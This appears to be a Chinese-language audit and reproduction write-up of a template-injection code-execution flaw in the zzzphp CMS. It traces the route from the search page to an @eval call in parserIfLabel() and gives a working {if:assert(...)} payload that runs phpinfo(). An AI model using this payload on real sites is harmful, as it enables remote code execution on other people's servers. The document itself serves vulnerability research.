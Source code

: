 ### 安装时候的坑

安装时会提示/config/zzz_config.php 12行有语法错误，注释掉就好了，不然安装会出现问题

<img src="./img/1.png">



### 漏洞复现

修改/template/pc/cn2016/html/search.html的文件内容为下面的代码

```php
{if:assert($_request[phpinfo()])}phpinfo();{end if}
```



访问http://127.0.0.1/zzzphp/search/

<img src="./img/3.png">



### 审计开始

全局搜索关键字@eval，定位到/inc/zzz_template.php文件，该处为ParserTemplate类的parserIfLabel()方法

<img src="./img/2.png">



找哪里实例化了ParserTemplate类，/inc/zzz_client.php实例化了该类

<img src="./img/4.png">



/search下的index.php包含了/inc/zzz_client.php

<img src="./img/5.png">



为了方便我们做后续的分析，我们在/inc/zzz_template.php里面的parserIfLabel()方法中打印一下$matches的值

```php
public function parserIfLabel($zcontent)
{
    $pattern = '/\{if:([\s\S]+?)}([\s\S]*?){end\s+if}/';
    if (preg_match_all($pattern, $zcontent, $matches)) {
        var_dump($matches);  // 打印$matches
        ...
    }
    return $zcontent;
}
```



打印出来的$matches的值是一个数组

<img src="./img/6.png">



随后进入循环，在循环中，会对$ifstr进行复制和替换字符的操作，先看一下赋值语句，也就是$ifstr = $matches\[1][0]，即$ifstr = assert($_request[phpinfo()])}phpinfo();

```php
$ifstr = $matches[1][$i];
```



继续跟进cleft()函数，该函数为自定义函数，函数功能：对传入的字符串进行去空格操作，然后截取第一个字符

```php
function cleft( $str, $start = 0, $num = 1 ) {
	$var = trim( $str );
	$result = substr( $var, $start, $num );
	return $result;
}
```



后面的替换就跳过了，因为替换对的内容$ifstr里面是没有的



所以，代入$ifstr值后，@eval代码为如下结果，可执行phpinfo()命令（PS：在网页下创建/zzzphp.php文件进行访问，可以显示phpinfo界面）

```php
@eval( 'if(assert($_request[phpinfo()])){$flag="if";}else{$flag="else";}' );
```



### 参考

https://cloud.tencent.com/developer/article/1605191

https://www.cnblogs.com/-qing-/p/13513625.html